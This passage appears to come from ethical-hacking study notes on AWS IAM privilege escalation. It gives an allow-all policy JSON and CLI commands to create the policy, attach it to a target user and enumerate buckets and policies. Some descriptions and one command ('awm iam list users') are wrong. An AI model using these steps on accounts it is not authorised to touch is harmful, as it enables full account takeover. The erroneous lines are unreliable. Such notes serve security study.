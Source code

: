 - **Horizontal Privilege Escalation**: An unauthorized user tries to access the resources, functions, and other privileges of an authorized user who has similar access permissions
- **Vertical Privilege Escalation**: An unauthorized user tries to access the resources and functions of a user with higher privileges such as application or site administrators

##### Escalate IAM User Privileges by  Exploiting User Policy
A policy is an entity that, when attached to an identity or resource, defines its permissions. You can use the AWS Management Console, AWS CLI, or AWS API to create customer-managed policies in IAM. Customer-managed policies are standalone policies that you administer in your AWS account. You can then attach the policies to the identities (users, groups, and roles) in your AWS account. If the user policies are not configured properly, they can be exploited by attackers to gain full administrator access to the target user’s AWS account.

Create a file named `user-policy.json` 
```
{
	"Version":"2012-10-17",
	"Statement": [
		{
		    "Effect":"Allow",
		    "Action":"*",
		    "Resource":"*"
		}
	]
}
```

`aws iam create-policy --policy-name user-policy --policy-document file://user-policy.json` : This command will attach the created policy to the Target IAM User's Account

`aws iam attach-user-policy --user-name [Target Username] --policy-arn arn:aws:iam::[Account ID]:policy/user-policy` : This command will attack the created policy to the Target IAM User Account

`aws iam list-attached-user-policies --user-name [Target Username]` : Prints the list attached policy names.

`awm iam list users` : To list all the IAM Users in the AWS Environment.

Similarly, you can use various commands to obtain complete information about the AWS environment such as the list of S3 buckets, user policies, role policies, and group policies, as well as to create a new user.

List of S3 buckets: `aws s3api list-buckets --query "Buckets[].Name"`

User Policies: `aws iam list-user-policies`

Role Policies: `aws iam list-role-policies`

Group policies: `aws iam list-group-policies`

Create user: `aws iam create-user`


# Iot & OT Hacking
The objective of a hacker in exploiting IoT devices is to gain unauthorized access to users’ devices and data. A hacker can use compromised IoT devices to build an army of botnets, which, in turn, is used to launch DDoS attacks.
